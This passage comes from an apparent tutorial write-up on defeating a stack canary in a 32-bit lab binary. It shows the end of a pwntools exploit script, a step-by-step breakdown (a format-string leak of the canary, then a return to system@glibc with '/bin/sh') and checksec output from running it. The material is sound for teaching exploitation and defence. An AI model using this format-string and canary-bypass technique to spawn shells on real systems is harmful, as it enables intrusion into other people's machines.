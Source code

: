         r = gdb.debug([exe], gdbscript="""
                b *totallySafeFunc+42
                continue
                """)
    else:
        r = process([exe])

    r.recvuntil("echo> ")
    r.sendline(leak_addresses())

    leaked_adrs = r.recvline()
    print(leaked_adrs)

    exploit = payload(leaked_adrs)

    r.recvuntil("read> ")
    r.sendline(exploit)

    r.interactive()


if __name__ == '__main__':
    main()
    sys.exit(0)
{% endhighlight %}


This exploit is not the prettiest of all exploit scripts, but it does the job ;) .

This quick script will exactly do what I shortly explained before.
Here is another breakdown:


1. First we leak a bunch of addresses with the `%llx.` format string (long long-sized integer)
2.  Analyze the leaked addresses, 
2b. It turns out our stack canary is at the 68th leaked address
2c. Furthermore the middle of the stack is within the lower 8 bits of the first leaked ll integer!
5. Extract these values from the leak
4. Craft payload: 
4b. Fill buffer with junk
4c. Insert leaked canary
4d. code redirection to `system@glibc`
4e. fake Base Pointer 
4f. address of `/bin/sh` appended lastly
   

### Proof  

	$ python2 defeat_canary.py
	[*] '/home/lab/Git/RE_binaries/0x00sec_WIP/Canary/binary/realvuln4'
	    Arch:     i386-32-little
	    RELRO:    Partial RELRO
	    Stack:    Canary found
	    NX:       NX enabled
	    PIE:      No PIE (0x8048000)
	[*] '/lib/i386-linux-gnu/libc-2.23.so'
	    Arch:     i386-32-little
	    RELRO:    Partial RELRO
	    Stack:    Canary found
	    NX:       NX enabled
	    PIE:      PIE enabled
	[+] Starting local process './binary/realvuln4': pid 20991